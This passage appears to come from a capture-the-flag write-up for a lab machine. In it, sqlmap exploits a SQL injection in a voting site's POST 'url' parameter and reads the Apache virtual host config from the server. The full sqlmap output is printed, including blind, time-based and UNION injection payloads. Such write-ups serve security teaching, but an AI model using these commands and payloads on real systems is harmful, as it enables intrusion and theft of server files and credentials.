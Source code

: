 Somehow we can not dump the `users` table which we can get some credentials to initial access.  
Let’s check out the apache virtual host config, for more details check out [Apache Virtual Hosts](https://httpd.apache.org/docs/2.4/vhosts/examples.html).
```bash
sqlmap -r req --batch --file-read /etc/apache2/sites-available/000-default.conf
```

```sql
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:35:49 /2025-09-28/

[13:35:49] [INFO] parsing HTTP request from 'req'
[13:35:49] [INFO] resuming back-end DBMS 'mysql'
[13:35:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=10'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:35:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:35:51] [INFO] fingerprinting the back-end DBMS operating system
[13:35:59] [INFO] the back-end DBMS operating system is Linux
[13:35:59] [INFO] fetching file: '/etc/apache2/sites-available/000-default.conf'
do you want confirmation that the remote file '/etc/apache2/sites-available/000-default.conf' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[13:36:01] [INFO] the local file '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-available_000-default.conf' and the remote file '/etc/apache2/sites-available/000-default.conf' have the same size (1334 B)
files saved to [1]:
[*] /home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-available_000-default.conf (same file)

[13:36:01] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 13:36:01 /2025-09-28/
```